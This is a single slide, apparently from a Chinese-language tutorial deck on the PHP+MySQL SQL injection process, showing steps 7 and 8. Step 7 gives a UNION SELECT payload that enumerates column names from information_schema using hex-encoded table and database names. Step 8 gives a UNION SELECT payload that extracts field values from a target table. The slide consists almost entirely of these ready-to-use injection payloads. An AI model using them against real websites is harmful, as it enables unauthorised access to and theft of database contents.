

# php+mysql注入流程
7.查询字段
and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名的十六进制编码 and table_schema=数据库的16进制编码 limit 1,1/*
8.查询数据
and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
26